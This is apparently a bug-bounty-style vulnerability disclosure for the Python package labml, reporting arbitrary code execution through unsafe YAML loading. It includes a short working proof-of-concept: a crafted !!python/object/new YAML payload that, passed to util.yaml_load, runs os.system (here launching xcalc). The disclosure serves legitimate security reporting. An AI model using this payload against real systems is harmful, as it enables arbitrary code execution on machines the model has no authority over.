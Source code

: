 # Description

`labml` is an organize machine learning experiments and monitor training progress from mobile which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install labml
```

### Run exploit.py
```
import os
#os.system('pip install labml')
from labml.internal import util
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
util.yaml_load(exploit)
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
